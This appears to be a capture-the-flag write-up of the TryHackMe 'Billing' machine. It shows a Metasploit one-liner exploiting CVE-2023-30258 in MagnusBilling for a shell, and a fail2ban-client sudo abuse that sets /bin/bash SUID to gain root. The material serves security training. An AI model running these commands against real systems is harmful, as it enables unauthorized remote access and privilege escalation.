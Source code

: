 ```yaml
---
layout: post
title: TryHackMe - Billing Writeup
date: 2025-03-30
classes: wide
description: Identifying Web Applications and abusing public CVEs from MagnusBilling to get a shell, escalating privileges through Fail2Ban binary.
---
```


## TryHackMe - Billing

<img src="/assets/img/post/thm_billing/1.png" alt="1" style="zoom:50%;" />



## Basic Scan

Let's start simply by using `nmap` to perform the initial scan against the machine.

![2](/assets/img/post/thm_billing/2.png)

Now here's the information we have:

- An `OpenSSH 8.4p1` SSH server, which I doubt can be exploited due to the version;
- An Apache server which has a page with `MagnusBilling` in it's title;
- MySQL server is also available but it says unauthorized;
- Asterisk Call Manager which is a popular open-source application to manage voice applications



## **Dial 'S' for Shell**

Now if you, just like me, never heard of MagnusBilling, it's basically VoIP serivce billing system which default port is `5060/tcp` but we found it on port `80/tcp`. Let's check the web server:

![3](/assets/img/post/thm_billing/3.png)

The disallowed entry `/mbilling/` was automatically added to the URL when we access the server. I've decided to try default credentials, in this case `root/magnus`, unfortunately it didn't work. Searching around for CVEs online returns many options, but one in particular is quite interesting: [CVE-2023-30258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-30258)

This CVE allows an unauthenticated to achieve RCE, moreover it has a public exploit available and a Metasploit [module](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/) as well.	

```sh
msfconsole -qx "use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258;set rhosts 10.10.52.208;set lhost tun0;exploit"
```

![4](/assets/img/post/thm_billing/4.png)

Once exploited, we can now find the `user.txt` flag inside Magnus's home directory:

![5](/assets/img/post/thm_billing/5.png)



## **SUID Shenanigans**

To escalate privileges inside this machine let's first check our sudo permissions:

```
sudo -l
```

![6](/assets/img/post/thm_billing/6.png)

Notice the `fail2ban-client` binary is available for us without needing of password. A quick google search for privilege escalation regarding this binary reveals a quick walkthrough. Let's check for available jails:

```sh
sudo /usr/bin/fail2ban-client status
```

Using any of the shown jails, we can use the following commands:

```sh
sudo /usr/bin/fail2ban-client get <JAIL> actions
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
/bin/bash -p
```

And get our root privileges:

![7](/assets/img/post/thm_billing/7.png)

Once with root access, the `root.txt` flag is locate inside root's directory:

![8](/assets/img/post/thm_billing/8.png)
